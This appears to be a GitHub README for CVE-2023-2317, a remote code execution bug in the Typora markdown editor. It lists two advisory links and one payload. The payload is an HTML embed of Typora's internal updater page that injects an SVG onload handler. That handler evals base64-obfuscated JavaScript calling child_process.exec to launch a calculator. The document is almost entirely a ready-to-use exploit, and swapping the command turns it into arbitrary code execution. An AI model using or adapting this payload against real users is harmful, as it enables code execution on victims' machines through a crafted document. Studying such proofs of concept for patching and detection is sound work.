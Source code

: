 # CVE-2023-2317_Typora_RCE

https://buaq.net/go-175535.html

https://starlabs.sg/advisories/23/23-2317/

---

pauload:

```
<embed src="typora://app/typemark/updater/updater.html?curVersion=111&newVersion=222&releaseNoteLink=333&hideAutoUpdates=false&labels=[%22%22,%22%3csvg%2fonload=top.eval(atob('cmVxbm9kZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoKHtXaW4zMjogJ2NhbGMuZXhlJywgTGludXg6ICdnbm9tZS1jYWxjdWxhdG9yIC1lICJUeXBvcmEgUkNFIFBvQyInfSlbbmF2aWdhdG9yLnBsYXRmb3JtLnN1YnN0cigwLDUpXSk='))><%2fsvg>%22,%22%22,%22%22,%22%22,%22%22]"></embed>
```
